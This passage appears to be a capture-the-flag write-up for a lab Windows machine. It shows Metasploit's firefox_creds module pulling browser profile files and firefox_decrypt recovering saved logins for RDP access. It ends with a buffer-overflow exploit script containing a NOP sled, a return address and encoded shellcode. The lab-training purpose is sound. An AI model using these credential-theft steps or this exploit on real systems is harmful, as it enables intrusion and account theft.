## Privilege Escalation

On the desktop I find a file called `Firefox.lnk`. Metasploit has a `multi/gather/firefox_creds` module. I background the session, upgrade it to a meterpreter shell with `sessions -u 2`, and `use multi/gather/firefox_creds`. I run `set SESSION 3` and `exploit`:
```shell
[-] Error loading USER S-1-5-21-663372427-3699997616-3390412905-1000: Hive could not be loaded, are you Admin?  
[*] Checking for Firefox profile in: C:\Users\natbat\AppData\Roaming\Mozilla\  
[*] Profile: C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release  
[+] Downloaded cert9.db: /home/user/.msf4/loot/20250521175718_default_10.10.112.61_ff.ljfn812a.cert_907796.bin  
[+] Downloaded cookies.sqlite: /home/user/.msf4/loot/20250521175720_default_10.10.112.61_ff.ljfn812a.cook_023014.bin  
[+] Downloaded key4.db: /home/user/.msf4/loot/20250521175723_default_10.10.112.61_ff.ljfn812a.key4_376735.bin  
[+] Downloaded logins.json: /home/user/.msf4/loot/20250521175725_default_10.10.112.61_ff.ljfn812a.logi_388679.bin  
[*] Profile: C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\rajfzh3y.default  
[*] Post module execution completed
```

I transfer these files to the directory I'm working in and rename them to their original names. I find this script [https://github.com/unode/firefox_decrypt](https://github.com/unode/firefox_decrypt) which will extract the credentials from these files. I git clone it.

I cd to the file and run `python3 firefox_decrypt.py ../`:
```shell  
2025-05-21 18:08:16,857 - WARNING - profile.ini not found in ../  
2025-05-21 18:08:16,857 - WARNING - Continuing and assuming '../' is a profile location  
  
Website:   https://creds.com  
Username: 'mayor'  
Password: 'redacted'
```

I use these creds in remmina to rdp and get the root flag. That's all!

___

This was my final exploit script for the buffer overflow:
```python
import sys,socket

message = b"A"*146
nops = b"\x90"*32
esp_ret = b"\xc3\x14\x04\x08"

buf = b""
buf += b"\xda\xd0\xd9\x74\x24\xf4\x5b\x33\xc9\xb1\x52\xbd\xbd\xa3"
buf += b"\x27\x32\x31\x6b\x17\x83\xc3\x04\x03\xd6\xb0\xc5\xc7\xd4"
buf += b"\x5f\x8b\x28\x24\xa0\xec\xa1\xc1\x91\x2c\xd5\x82\x82\x9c"
buf += b"\x9d\xc6\x2e\x56\xf3\xf2\xa5\x1a\xdc\xf5\x0e\x90\x3a\x38"
buf += b"\x8e\x89\x7f\x5b\x0c\xd0\x53\xbb\x2d\x1b\xa6\xba\x6a\x46"
buf += b"\x4b\xee\x23\x0c\xfe\x1e\x47\x58\xc3\x95\x1b\x4c\x43\x4a"
buf += b"\xeb\x6f\x62\xdd\x67\x36\xa4\xdc\xa4\x42\xed\xc6\xa9\x6f"
buf += b"\xa7\x7d\x19\x1b\x36\x57\x53\xe4\x95\x96\x5b\x17\xe7\xdf"
buf += b"\x5c\xc8\x92\x29\x9f\x75\xa5\xee\xdd\xa1\x20\xf4\x46\x21"
buf += b"\x92\xd0\x77\xe6\x45\x93\x74\x43\x01\xfb\x98\x52\xc6\x70"
buf += b"\xa4\xdf\xe9\x56\x2c\x9b\xcd\x72\x74\x7f\x6f\x23\xd0\x2e"
buf += b"\x90\x33\xbb\x8f\x34\x38\x56\xdb\x44\x63\x3f\x28\x65\x9b"
buf += b"\xbf\x26\xfe\xe8\x8d\xe9\x54\x66\xbe\x62\x73\x71\xc1\x58"
buf += b"\xc3\xed\x3c\x63\x34\x24\xfb\x37\x64\x5e\x2a\x38\xef\x9e"
buf += b"\xd3\xed\xa0\xce\x7b\x5e\x01\xbe\x3b\x0e\xe9\xd4\xb3\x71"
buf += b"\x09\xd7\x19\x1a\xa0\x22\xca\x2f\x38\x6e\x71\x58\x40\x6e"
buf += b"\x94\xc4\xcd\x88\xfc\xe4\x9b\x03\x69\x9c\x81\xdf\x08\x61"
```